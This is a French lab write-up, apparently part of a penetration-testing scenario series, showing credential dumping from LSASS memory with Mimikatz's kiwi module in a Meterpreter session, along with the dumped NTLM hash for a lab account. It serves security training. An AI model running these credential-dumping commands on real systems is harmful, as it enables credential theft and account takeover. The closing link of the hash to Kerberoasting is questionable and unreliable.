

## Attaque

### Contexte

Depuis une session SYSTEM obtenue au scénario 03, l'attaquant charge Mimikatz
pour extraire les hashes NTLM depuis la mémoire LSASS.
LSASS (Local Security Authority Subsystem Service) est le processus Windows
qui gère l'authentification et conserve les credentials des sessions actives en mémoire.

### Technique MITRE

| ID | Technique | Tactique |
|----|-----------|----------|
| T1003.001 | OS Credential Dumping: LSASS Memory | Credential Access |

### Prérequis

| Élément | Valeur |
|---------|--------|
| Accès | Session Meterpreter SYSTEM |
| Cible | WS01 -> 192.168.10.101 |
| Condition | alice doit avoir une session active sur WS01 |

### Exécution

#### 1. Charger le module kiwi (Mimikatz)

Depuis la session SYSTEM, migrer vers un processus x64 avant de charger kiwi (sinon impossible de dump les hashes, car le meterpreter est en 32 bits par défaut) :

```bash
migrate -N spoolsv.exe
load kiwi
```

#### 2. Dumper les credentials depuis LSASS

```bash
kiwi_cmd sekurlsa::logonpasswords
```

### Résultat



| Compte | Domaine | NTLM                             |
| ------ | ------- | -------------------------------- |
| alice  | LAB     | d081b424d6a023f75110c122c25fcf22 |

Hash de domaine extrait depuis LSASS. Réutilisable pour l'authentification Kerberos (scénario 07 - Kerberoasting)

